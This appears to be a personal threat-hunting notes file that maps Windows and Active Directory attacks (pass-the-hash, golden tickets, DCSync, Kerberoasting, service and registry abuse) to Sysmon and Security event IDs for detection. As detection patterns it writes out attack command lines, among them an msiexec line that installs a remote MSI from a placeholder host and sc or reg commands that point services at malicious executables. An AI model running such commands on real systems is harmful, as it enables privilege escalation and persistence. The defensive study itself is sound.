








# Threat-hunting for event IDs

## Sysmon threathunting and community guide

1. Read this [ref](https://jpcertcc.github.io/ToolAnalysisResultSheet/) - Do note though that field **Evidence That Can Be Confirmed When Execution is Successful** seems to be sufficient but not necessay ie. don't rule it out if it doesn't fit.

2. [Explanation](https://github.com/trustedsec/SysmonCommunityGuide/blob/master/Sysmon.md) to fields in Sysmon like SourceImage etc.

## Inserting of USB flash drive Windows

1. Look for `index=botsv1 "\\System\\MountedDevices"` to find drive letter.
2. Shortly after you may find `CommandLine` accessing file in said drive.

## Windows kernel exploit elevation to SYSTEM

1. Look for *Medium* integrity with non-SYSTEM token but spawned child process with SYSTEM privs.



## Insecure Service Permissions

* Sysmon Event ID 1 with *CommandLine* field with 
  ```sc config "service_name" binPath= "path_to_a_suspicious_executable.exe"``` or
  ```sc start "service_name"``` with **High** *IntegrityLevel*

## Unquoted service paths

1. Sysmon Event ID 1, where *CommandLine*'s beginning in quotes =  *Image*'s path minus extension




## Always Install Elevated

Sysmon Event ID 1's 

Search surrounding documents to see on ELK

1. *CommandLine*: `msiexec.exe /q /I http://domain_or_address/filename.msi` by unprivileged user
2. Nearby ID 1 entry with *ParentImage* `C:\Windows\System32\msiexec.exe` installing MSI with *IntegrityLevel* SYSTEM, *User* NT Authority/SYSTEM
3. Privileged process ie. *User* SYSTEM spawning either **cmd.exe** or **powershell.exe** in *CommandLine*
4. Or a little later on:
  1. event_id 1
  2. event_data.User NT AUTHORITY\SYSTEM
  3. event_data.CommandLine "C:\Windows\Installer\MSI861B.tmp"
  4. event_data.Image C:\Windows\Installer\MSI861B.tmp

## Windows registry edits

1. Look for Sysmon Event ID 1 and Event ID 13 entries with 
    **CommandLine** field containing
    ```reg add HKLM\SYSTEM\CurrentControlSet\Services\XYZ /v ImagePath /d "path_to_a_malicious_executable.exe"```
    where **IntegrityLevel** is set to other than *High*

2. Check these registry locations or registry edits for suspicious programs installed for persistence.
  1. *HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion*
  2. *HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows NT/CurrentVersion/*

## Windows Privs for Priv Esc

* SeDebugPrivilege

  Detection: Look for [Sysmon Event ID 8](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?source=Sysmon&eventID=8) entries
  
* SeImpersonatePrivilege
* SeAssignPrimaryPrivilege
* SeTakeOwnershipPrivilege
* SeRestorePrivilege
* SeBackupPrivilege
* SeLoadDriver
* SeCreateTokenPrivilege
* SeTcbPrivilege

## NTLMv1/LM

1. Filter `ntlmssp.ntlmserverchallenge` in WS, look for **NTLM Server Challenge**

## SMB relay via NBT-NS, LLMNR (Responder)

### Concept

1. User mistypes SMB share or clicks on link leading to one.
2. Windows can't find domain name, so it falls back to LLMNR or NBT-NS broadcasts querying LAN for mistyped URL.
3. Responder poisons the answer, claiming to be destination.
4. Victim's machine sends Windows NTLM hash to target IP specified by Responder.

### Detection

1. Sysmon logs, Event 3 (SMR or NetBIOS related). Look for **DestinationIp** and **DestinationPort:445**

## Account logon event IDs

See this [cheatsheet for Windows Security Event log](https://www.andreafortuna.org/2019/06/12/windows-security-event-logs-my-own-cheatsheet/).
Also see slides 16 onwards for *4 - SOC 3.0 Operations & Analytics*, *02_Logging* for explanations on how to follow up

| Event ID | Description                                                  |
| -------- | ------------------------------------------------------------ |
| 4768     | A Kerberos authentication ticket (TGT) was requested         |
| 4769     | A Kerberos service ticket was requested                      |
| 4770     | A service ticket was renewed.  The account name, service name, client IP address, and encryption type are recorded. |
| 4771     | Kerberos pre-authentication failed                           |
| 4776     | The computer attempted to validate the credentials for an account |
| 4624     | An account was successfully logged on                        |
| 4625     | An account failed to log on                                  |
| 4634     | An account was logged off                                    |
| 4647     | User initiated logoff                                        |
| 4648     | A logon was attempted using explicit credentials             |
| 4672     | Special privileges assigned to new logon                     |
| 4688     | A new process has been created (alternative to Sysmon ID 1)  |
| 4778     | A session was reconnected to a Window Station                |
| 4779     | A session was disconnected from a Window Station             |

**Logon types** (Ref [here](https://www.appliedincidentresponse.com/windows-event-log-analyst-reference/) and [here](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4624))

See much more detailed explanation of Logon types [here](https://eventlogxp.com/blog/logon-type-what-does-it-mean/).

### Event ID 4688 vs 1

1. Note that 4688 in WinEventLog doesn't seem to record the hash of file being run but Sysmon does. From BOTSv1.
2. So look at Sysmon logs, `| sort _time` to find the MD5 hash, in md5
3. You'll also need to convert the PID from hex to dec, see Splunk.md

See what is SessionId [here](https://superuser.com/questions/123242/can-i-find-the-session-id-for-a-user-logged-on-to-another-machine).

| Logon Type | Description                                                  |
| ---------- | ------------------------------------------------------------ |
| 2          | Interactive, such as logon at keyboard and screen of the system, or remotely using third-party remote access tools like VNC, or psexec with the -u switch. Logons of this type will cache the user’s credentials in RAM for the duration of the session and may cache the user’s credentials on disk. |
| 3          | Network, such as access to a shared folder on this computer from elsewhere on the network. This represents a noninteractive logon, which does not cache the user’s credentials in RAM or on disk. |
| 4          | Batch (indicating a scheduled task). Batch logon type is used by batch servers, where processes may be executing on behalf of a user without their direct intervention. |
| 5          | Service indicates that a service was started by the Service Control Manager. |
| 7          | Unlock indicates that an unattended workstation with a password protected screen is unlocked |
| 8          | NetworkCleartext indicates that a user logged on to this computer from the network and the user’s password was passed to the authentication package in its unhashed form. The built-in authentication packages all hash credentials before sending them across the network. The credentials do not traverse the network in plaintext (also called cleartext). Most often indicates a logon to Internet Information Services (IIS) with basic authentication. |
| 9          | NewCredentials such as with RunAs or mapping a network drive with alternate credentials.  This logon type does not seem to show up in any events.  If you want to track users attempting to logon with alternate credentials see 4648. MS says "A caller cloned its current token and specified new credentials for outbound connections. The new logon session has the same local identity, but uses different credentials for other network connections." |
| 10         | RemoteInteractive (Terminal Services, Remote Desktop or Remote Assistance) |
| 11         | CachedInteractive (logon with cached domain credentials such as when logging on to a laptop when away from the network). The domain controller was not contacted to verify the credential, so no account logon entry is generated. |


Read [this](https://www.appliedincidentresponse.com/windows-event-log-analyst-reference/) for in-depth explanation of Windows Event Log Analysis.

1. Local user account logons on non-DC machines are abnormal. Search for ID 4624 on those machines.
2. SMB relay attacks identified by correlating 4768, 4769, 4776. Watch the *Logon Type* field as well.

  > Discrepancies in the record entry between the recorded hostname and its assigned IP address may be indicative of Server Message Block (SMB) relay attacks, where an attacker relays a request from one system using an IP address not associated with that system. 
3. Look out for ID 4624 which do not have 4636, 4647 meaning there's logon but no recorded logoffs.
4. 4672 - May indicate elevation of privileges.
5. [Difference](https://social.technet.microsoft.com/Forums/en-US/ac9fafcb-819d-4d2c-a63b-a88d34ed6e96/event-id-4624-targetusername-vs-subjectusername?forum=winserversecurity) between *SubjectUserName* and *TargetUserName*:

  >subjectusername

  The subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe.

  >targetusername

  The New Logon fields indicate the account for whom the new logon was created, i.e. the account that was logged on.

Some misc notes:

6. Tested with Event Viewer on Win 10 PC - Normal for ID 4624 login for TargetUserName <username> to have SubjectUserName <PC-name>$, Login ID will be 0x3E7. 0x3E7 [is normal](https://answers.microsoft.com/en-us/protect/forum/all/nt-authority-hackr-logon-id-0x3e7-0x3e5/ebd3a18e-71da-4c30-99c7-ecaa3fbde2a7)

7. How to filter [via XML query](https://docs.microsoft.com/en-us/archive/blogs/askds/advanced-xml-filtering-in-the-windows-event-viewer) on Windows Event Viewer.
  1. SYSTEM LogonID 0x3e7
  2. Network Service 0x3e4
  3. Local Service 0x3e5
  4. [Source](https://www.microsoftpressstore.com/articles/article.aspx?p=2224373&seqNum=7)

## Pass the hash

### Concept

1. It copies a binary to the ADMIN$ share over SMB (later ones don't drop binary but execute PS scripts)
2. It creates a service on the remote machine pointing to the abovementioned binary
3. It remotely starts the service
4. It stops the service and deletes the binary on exit

### Detection

1. To detect services being installed, look for Event ID 7045 and Windows Security Log Event ID 

2. Interactive logon normally takes place prior NTLM connection, if not suspect PTH. NTLM connection Event IDs are:

      1. 4768 – A Kerberos authentication ticket (TGT) was requested - on DC
      2. 4769 – A Kerberos service ticket (TGS) was requested - on DC
      3. 4648 – A logon was attempted using explicit credentials - on source machine, preceding 4624
      4. 4624 – An account was successfully logged on - on source with interactive logons.

3. Logon types: 2 (Interactive), 7 (Unlock), 10 (RemoteInteractive) or 11 (CachedInteractive)

    

    

4. Since PTH is used against privileged accounts, look for ID 4672 to find them, then look backwards to see if preceding 4624 is interactive.
    

5. Note that mimikatz would use Logon type 9 for PTH.

6. Read this [ref](https://blog.stealthbits.com/how-to-detect-pass-the-hash-attacks/) or see PDF file PASS-THE-HASH DETECTION WITH WINDOWS EVENT VIEWER

## Kerberos

### Background

Watch this video by Vbscrub. Very helpful, near end of video you see the Kerberos packets in Wireshark.

[](http://www.youtube.com/watch?v=snGeZlDQL2Q "Kerberos Explained (In 3 Levels Of Detail)")


#### Overall diagram ([src](https://vbscrub.com/2020/05/13/kerberos-protocol-explained/))



## AD Pass the ticket

### Concept

1. Attacker steals TGT from LSASS memory (mimikatz) then imports it on another system.
2. Possible because Kerberos doesn't have any identifying info in TGT regarding the computer where it came from.
3. Note that attacker *never* requests TGT (4768 is missing)

### Detection ([src](https://blog.stealthbits.com/detect-pass-the-ticket-attacks))

1. 4768 – A Kerberos authentication ticket (TGT) was requested - missing from DC or present but user and client computer doesn't match.
2. 4769 – A Kerberos service ticket (TGS) was requested
3. 4770 – A Kerberos service ticket (TGS) was renewed

> So to look for pass-the-ticket activity, what are you looking for that would stand out? Well if you assume the attacker will harvest TGTs and then use them on a different system, which is likely, then you can look for behavior that fits this pattern. 
> 
> That would be TGS requests or TGT renewals with a particular Account / Client pair that have no associated TGT request from that Account / Client pair. You would have to look at a TGS request or TGT renewal and then scan back the previous 10 hours to see if there was a TGT request that matches that user and computer. 

Look for missing or mismatched 4678 IDs (mismatched in terms of client requesting)

## Overpass the hash

### Concept

1. Attacker uses NTLM hash of account to obtain TGT TGS.

### Detection

1. Look for evidence of Pass-the-hash first (ID 4624 Logon type 9 if mimikatz used)

## Forged Kerberos tickets

### Golden tickets

#### Concept

1. Forged TGTs that can request any TGS tickets for any service on any domain PC.
2. Requires Domain **krbtgt** Account NTLM hash.

Or better [video explanation](https://www.youtube.com/watch?v=o98_eRt777Y)

[](http://www.youtube.com/watch?v=o98_eRt777Y "Kerberos Golden Ticket Attack Explained")

#### Detection

1. Look for TGS requests (4769) with no prior TGT requests (4768) before them (within a reasonable time frame) (similar to pass the ticket above).
2. Event on DC, not on servers hosting services.

**More specific, less reliable** (see pic below):

1. Anomalies in events
  1. Look for ID:4624 (Account Logon), Event ID: 4672 (Admin Logon) and Event ID: 4634 (Account Logoff)
  2. May see "eo.oe.kiwi : )", "<3 eo.oe – ANSSIE>", a FQDN or nothing in the *Account Domain* field.
  3. Normal behaviour: Should have short form DOMAIN name ie. ADSECLAB (correct) instead of LAB.ADSECURITY.LAB (wrong)

2. MaxTicketAge (EndTime - StartTime) of TGT > Domain policy (default 10 hrs). Unfortunately, event logs do not capture the TGT timestamps ([src](https://www.andreafortuna.org/2019/05/29/some-thoughts-about-kerberos-silver-tickets/))

3. ID: 4769  (A Kerberos service ticket was requested) with a *Failure code: 0x1F*.

4. TGT for new logon events for non-existent users. Golden ticket can impersonate anything, including non-existent users.

5. ID: 4769 *Ticket Encryption Type 0x17* (RC4 encryption)



### Silver ticket

#### Concept
[Video explanation](https://attack.stealthbits.com/silver-ticket-attack-forged-service-tickets)

1. A TGS ticket which can be used to communicate with just one service on a computer in the domain.

#### Detection

1. Look for TGS requests with no prior TGT requests before them (within a reasonable time frame) (similar to pass the ticket above).
2. Event on DC, not on servers hosting services.

## Kerberoasting

### Concept

1. Stealing service account password hashes.
2. Required for silver tickets.

### Detection

1. Look for excessive ID 4769 events.

[Source](https://www.scip.ch/en/?labs.20181011)



## DCSync

### Concept

1. Attacker pretends to be a DC, calls the relevant APIs and RPC to tell target DC to replicate all the domain hashes to itself.
2. Required prior to Golden Ticket to steal **krbtgt** hash.
3. Attacker needs to be Admin, Domain Admin, Enterprise Admin or have these rights.
  1. Replicating Directory Changes
  2. Replicating Directory Changes All
  3. Replicating Directory Changes In Filtered Set
  
4. Watch video or read [this](https://blog.stealthbits.com/what-is-dcsync-an-introduction/)

[](http://www.youtube.com/watch?v=QfyZQDyeXjQ "DC Sync Attacks With Secretsdump.py")

### Detection

1. See slides for Suricata rule.
2. Look for DRSUAPI *DsGetNCChange* coming from non-DC IPs.

## DCShadow

### Concept

1. Similar to DCSync, module by mimikatz.

### Detection

1. With Wireshark, filter for `drsuapi`, look for *DrsAddEntry* or *DrsReplicaAdd* traffic originating from non-DC machines.
2. On DC logs, event ID look for 
  1. 4928 - An Active Directory replica source naming context was established.
  2. 4929 - An Active Directory replica source naming context was removed.

## Password spraying

1. Against SMB, look for ID 4625 "logon failure"
2. Against LDAP, look for ID 4771, then *Failure Code* 0x18 inside within small time window.

## Lateral movement - SMB file copy

### Detection

[Ref](https://401trg.com/an-introduction-to-smb-for-network-security-analysts/)

1. File copy from host to local machine sequence in WS. Assume host 31 is downloading **mimikatz.exe** from 30.
  1. After filtering by `smb2`
  2. 31 -> 30:445 Create Request File: temp\mimikatz.exe
  3. 30:445 -> 30 Create Response File: temp\mimikatz.exe
  4. 31 -> 30:445 GetInfo Request FILE_INFO/SMB2_FILE_EA_INFO
  5. 30:445 -> 31 GetInfo Response
  6. 31 -> 30:445 Read Request
  7. 30:445 -> 31 Read Response
  
2. Detection via event ID:
  1. 5140 - A network share object was accessed (see *Share Name* and *Share Path*)
  2. 5145 - A network share object was checked to see whether client can be granted desired access (see *Relative Target Name* for target filepath)

## WMI, WinRM, PS-Remoting RCE

1. Avoids SMB detection
2. WMI detection: ID 4624 Logon Type* 3, same *Login ID* spawns ID 1 with *ParentImage* `C:\Windows\System32\wbem\WmiPrvSE.exe`. Check *CommandLine*
3. WinRM detection: ID 4624 Logon Type* 3, same *Login ID* spawns ID 1 with *ParentImage* `C:\Windows\System32\winrshost.exe` Check *CommandLine*
4. PS-Remoting detection: ID 4624 *Logon Type* 3, same *Login ID* spawns ID 1 with *ParentImage* `C:\Windows\System32\wsmprovhost.exe` Check *CommandLine*

Shown for just WinRM since all similar


## Empire WMI Persistence

1. WMI stealthy persistence

### Detection

1. Search for event IDs 19, 20, 21. 20 should have very long PS base64 PS code.
2. Or search for ID 5861.
3. Note that Lab 9 ELK features it.


## Audit policy changes

1. Attackers may choose to clean up their evidence
2. ID 4719 This computer's system level audit policy was modified - either via Local Security Policy, Group Policy in Active Directory or the audipol command. See [this](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4719)
3. ID 1102 indicates audit log was cleared, will contain Account Name, Domain Name of user doing that.

## Powershell logging

1. Event ID 4103 is filled with data from the module logging facility.
2. Event ID 4104 is filled with data from the Script Block logging functionality. It contains actualcommand captures and logs everything inside a block.
3. Event ID 400 is related to a command execution or session starting. The hostname field reveals if we are dealing with a local or remote session.
4. Event ID 800 contains pipeline execution details, again the hostname field reveals if we are dealing with a local or remote session and the HostApplication field can indicate malicious PowerShell usage (for example PowerShell being executed with the -enc option)

Also see [this](https://github.com/hunters-forge/OSSEM/tree/master/data_dictionaries/windows/powershell) for eg. of message in those logs.

## Misc

1. Logon ID ([src](https://digital-forensics.sans.org/community/papers/gcfa/windows-logon-forensics_6928))
  
   > These events include Logon ID field, which is a unique number between reboots that identifies the logon session for these logons. Logon ID is useful for correlating many other events generated by user during this logon session. After having client IP and other systems’ information used by that user, security logs from those systems are analyzed to see that user’s activities and, these systems, if necessary, becomes the focus of the forensic analysis for a security investigation.

## SMTP, DNS, HTTP(S) analytics

1. Email domain phishing
  1. ELK fuzzy search `from_domain:securityconsulting.com~ AND -from_domain:securityconsulting.com`
  2. Splunk (see slide 14 of 03_SMTP_DNS_and_HTTPS_Analytics) way too long to post here :)

2. DNS
  1. Intranet machines interacting with sinkhole
  2. Unusual domain names (see Splunk lab)
  3. High volume of NXDOMAIN responses - Quote from [here](https://cdn2.hubspot.net/hubfs/3354902/Content%20PDFs/protecting-against-dga-based-malware.pdf)

  > The malware sends DNS queries one-byone in order to resolve the generated domains. If the domain is not registered the malware receives a non-existing domain response (NXDOMAIN) and tries to resolve the next generated domain. This often results in a sequence of NXDOMAIN responses, which can sometimes be detected by analyzing the network activity. This is harder than it sounds, however, as these patterns are often lost in the general noise of modern networks and are prone to false positives resulting from any number of legitimate reasons, from browsing typos to DNS server failures.

  4. Increased volume of DNS by client (possible exfiltration) - High amt of **CNAME**, **MX** and **TXT** records.

3. HTTP
  1. High volume of 4XX client errors (possible Web crawling or vuln scanning)'
  2. High volume of 2XX success codes (spidering?)
  3. Bare IPs (?)
  4. Long URLs (SQLi or RCE attempts)
  5. Abnormal user agents (non-Browser pentesting tools)
  
4. HTTPS
  1. Self-signed certificates
  2. Certs with missing fields
  3. Expired certs
  4. Overly-long validity

## Some useful references

1. https://www.youtube.com/watch?v=b6GUXerE9Ac

2. List of Sysmon [event IDs](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon).

3. Windows [logon types.](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4624)

4. Sysmon [suspicious activity guide](https://docs.microsoft.com/en-us/archive/blogs/motiba/sysinternals-sysmon-suspicious-activity-guide)